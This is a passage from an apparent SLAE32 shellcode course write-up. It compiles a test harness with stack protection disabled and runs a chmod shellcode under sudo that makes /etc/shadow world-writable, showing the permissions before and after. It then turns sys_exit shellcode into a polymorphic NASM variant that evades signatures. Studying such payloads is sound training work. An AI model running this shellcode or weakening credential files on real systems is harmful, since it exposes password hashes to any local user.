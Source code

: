 Now we compile the `C` program.

```shell
geobour98@slae32-dev:~/SLAE/custom/SLAE32/6_Polymorphic_shellcodes/2_execve_chmod$ gcc -fno-stack-protector -z execstack shellcode.c -o shellcode
```

In order to verify that the payload is working we must execute `shellcode`. We also check the permissions of `/etc/shadow` before and after the execution.

```shell
geobour98@slae32-dev:~/SLAE/custom/SLAE32/6_Polymorphic_shellcodes/2_execve_chmod$ ls -la /etc/shadow
-rw-r----- 1 root shadow 1298 Απρ  03 20:04 /etc/shadow
geobour98@slae32-dev:~/SLAE/custom/SLAE32/6_Polymorphic_shellcodes/2_execve_chmod$ sudo ./shellcode
Shellcode Length:  80
geobour98@slae32-dev:~/SLAE/custom/SLAE32/6_Polymorphic_shellcodes/2_execve_chmod$ ls -la /etc/shadow
-rwxrwxrwx 1 root shadow 1298 Απρ  03 20:04 /etc/shadow
```

## sys_exit(0) {#sys_exit}

The original `sys_exit(0) x86 linux shellcode` shellcode is the following:

```shell
\x31\xc0\xb0\x01\x31\xdb\xcd\x80
```

The initial `Assembly` version (`sys-exit-original.nasm`) would look like this:

```nasm
global _start

section .text
_start:

	xor eax, eax
	
	mov al, 0x1

	xor ebx, ebx

	int 0x80
```

Briefly, the syscall that is executed is `exit`, because of the number `1` passed to `EAX`. `exit` terminates the calling proocess. It needs the argument `status` to be set and in our case is `0`, so this value is saved to `EBX`. 

The polymorphic version (`sys-exit.nasm`) is the following:

```nasm
global _start

section .text
_start:

	xor eax, eax	; clear eax
	
	inc eax		; increment eax to 1

	xor ebx, ebx	; clear ebx

	int 0x80	; exec exit syscall
```
